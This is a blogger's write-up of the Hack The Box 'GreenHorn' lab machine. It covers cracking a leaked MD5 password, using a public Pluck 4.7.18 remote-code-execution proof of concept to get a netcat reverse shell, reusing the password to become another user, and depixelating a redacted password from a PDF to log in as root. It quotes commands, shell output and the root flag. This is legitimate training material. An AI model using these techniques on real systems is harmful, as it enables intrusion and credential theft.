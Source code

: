 ```yaml
---
draft: true
title: 
date: 2024-09-19
author: William
category: 
tags: 
description: 
cover:
  image: GreenHorn.png
  alt: GreenHorn.png
---
```


I would be lying if I said I posted this Hack the Box Greenhorn writeup within the same week of me exploiting it. In truth life happened. I did a SANs and a couple of late nights out. But here it is, my greenhorn writeup. 

## Enumeration


Nmap scan findings

3000 → git tea

Hosating pluck 4.7.18

[https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC)

cool we have an exploit but we need to authenticate for that.

Looking through the repo more we find MD5 hash is used for passwords… and under settings we have pass.php with a funny looking hash

Taking that badboy and throwing it into [https://crackstation.net/](https://crackstation.net/)

and we have a match!!! `iloveyou1` lets have a look at this pluck webserver running on port 80

Navigating to the login page we only need to put in a password

inputting the password we login. Now to leverage the sweet sweet remote code execution

## Exploitation

Looking closer at the script it needs

```bash
login_url = "http://<hostname>/login.php"
upload_url = "http://<hostname>/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": "<password>","<username>": "","submit": "Log in"}
```

Inspecting the login payload we get the user `bogus`

Constomizing the payload and opening my netcat to listen and we get a call home

```bash
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.25] 44696
SOCKET: Shell has connected! PID: 84927
whoami
www-data
```

looking around the box we find two users `git` and `junior` git we get permission denied but junior!!!

```bash
ls /home/junior
Using OpenVAS.pdf
archivo.pdf
linpeas.sh
user.txt
```

Boys rocking linpeas like a pro! Saddly for user.txt we get permission denied. CAN YOU blame me.. It was worth the try. We need to achieve persistence. SSH to the box fails, with junior being locked down with a public key.

Nothing much else of interest after poking around. But I got to the point of insanity where I was trying to extract the .pdf files by writing my own custom HTTP server that would accept POST request is dawned on me.

```bash
su junior
Password: iloveyou1
whoami
junior

cat user.txt
============ USER_FLAG ============ 

```

## Privilege Escalation 

Insert table flip here

Cool now we can also look at the PDF files by hosting an http server on the box and pull the files

```bash
python3 -m http.server

-------
└─$ wget <http://10.10.11.25:8080/Using\\> OpenVAS.pdf

```

![image.png](https://i.imgur.com/DqVqGGd.png)

That enter password looks mighty interesting. God knows why they did this this way but who am I to judge.

We go this lovely repo that can help us out

[https://github.com/spipm/Depix](https://github.com/spipm/Depix)

this will unpixulate the file

```bash
└─$ python depix.py -p ../pix.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png 

```

![image.png](https://i.imgur.com/sQ4XjKl.png)

Go from this to this

![image.png](https://i.imgur.com/vAruc7U.png)

Now we follow the guide and use this for root access

```bash
└─$ ssh root@10.10.11.25  
root@10.10.11.25's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

 System information as of Thu Jul 18 12:55:06 PM UTC 2024

  System load:           0.1
  Usage of /:            56.7% of 3.45GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             255
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.25
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ce54

This system is built by the Bento project by Chef Software
More information can be found at <https://github.com/chef/bento>
Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~#

root@greenhorn:~# cat root.txt 
8d5c73646256b5601c51ad25a7d4d4b9

```

[https://www.hackthebox.com/achievement/machine/1695260/617](https://www.hackthebox.com/achievement/machine/1695260/617)